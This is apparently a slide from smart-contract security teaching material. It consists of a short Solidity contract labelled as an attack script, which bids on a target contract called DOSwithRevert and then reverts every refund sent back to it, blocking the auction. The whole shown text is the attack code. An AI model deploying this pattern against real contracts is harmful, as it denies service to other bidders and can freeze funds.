

//Attack Script
contract R1A{
DOSwithRevert dwr;
function setAddress(address _addr) public{
	dwr = DOSwithRevert(_addr);
}
function callBid() public payable{
	dwr.bid.value(address(this).balance)();
}
function addBal() public payable{}
function() payable external{
	require(msg.value < 0);
}
}